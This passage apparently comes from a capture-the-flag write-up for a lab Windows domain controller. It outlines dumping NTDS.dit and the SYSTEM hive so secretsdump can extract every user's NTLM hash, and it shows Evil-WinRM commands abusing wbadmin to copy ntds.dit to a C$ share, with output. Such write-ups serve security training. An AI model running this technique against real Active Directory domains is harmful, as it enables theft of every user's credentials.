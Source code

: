 - Grab a copy of `NTDS.dit` file, a database that stores Active Directory users credentials.
- Next, we will grab SYSTEM.hive file which contains System boot key essential to decrypt the NTDS.dit
- Using Impacket's secretsdump script to extract NTLM hashes of all the users in the domain from NTDS.dit

## PrivEsc Method #1 - wbadmin

For the first method, We will use `wbadmin` a Windows command line tool which enables us back up and restore operating system, volumes, files, folders, and applications.

It is not recommended to Backup and Restore the file in the same disk, So first we will first create a shadow copy of disk and backup the `ntds.dit` from the `c:\windows\ntds\ntds.dit` and store it inside SMB share `C$`

We could also achieve this by hosting our own SMB share from our machine but I preferred using SMB share `C$` of the host itself, since we don't have an interactive session we'll be using `-quiet` flag which wont ask us for user input to start the backup operation.

#### NTDS.dit

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd \\10.10.10.192\C$\Windows\Temp
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp> mkdir CFX


    Directory: \\10.10.10.192\C$\Windows\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/5/2020  11:24 AM                CFX

*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
.dit -quiet
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.


Note: The backed up data cannot be securely protected at this destination.
Backups stored on a remote shared folder might be accessible by other
people on the network. You should only save your backups to a location
where you trust the other users who have access to the location or on a
network that has additional security precautions in place.

Retrieving volume information...
This will back up (C:) (Selected Files) to \\10.10.10.192\C$\Windows\Temp\CFX\.
The backup operation to \\10.10.10.192\C$\Windows\Temp\CFX\ is starting.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Windows Server Backup is updating the existing backup to remove files that have
been deleted from your server since the last backup.
This might take a few minutes.
The backup of volume (C:) completed successfully.
Summary of the backup operation:
------------------

The backup operation successfully completed.
The backup of volume (C:) completed successfully.
Log of files successfully backed up:
```